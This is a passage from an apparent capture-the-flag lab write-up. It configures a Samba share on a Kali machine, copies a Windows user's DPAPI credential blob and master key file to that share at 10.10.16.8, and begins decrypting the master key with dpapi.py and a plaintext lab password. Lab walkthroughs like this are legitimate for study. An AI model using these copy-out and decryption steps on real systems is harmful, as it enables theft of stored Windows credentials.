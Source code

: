 ![w](/assets/img/attachments/voleur-15.png)
To be able to download them i used samba on my linux
modified /etc/samba/smb.conf
```
[shared]
    path = /home/kali/share
    read only = no
    browsable = yes
    guest ok = yes

```
And since windows is refusing to connect to Samba share as a guest, which is common in modern Windows versions due to security policies. 
`You can't access this shared folder because your organization's security policies block unauthenticated guest `
I created a user for samba
```bash
sudo smbpasswd -a kali
```
at windows
```powershell
net use \\10.10.16.8\shared /user:kali kali

copy "C:\it\second-line support\archived Users\todd.wolfe\Appdata\local\Microsoft\credentials\DFBE70A7E5CC19A398EBF1B96859CE5D" "\\10.10.16.8\shared\"

copy "C:\it\second-line support\archived Users\todd.wolfe\Appdata\roaming\microsoft\protect\S-1-5-21-3927696377-1337352550-2781715495-1110\08949382-134f-4c63-b93c-ce52efc0aa88" "\\10.10.16.8\shared\"

```
Lets Decrypt DPAPI file
first we will get the master key
```bash
dpapi.py masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password 'NightT1meP1dg3on14'
```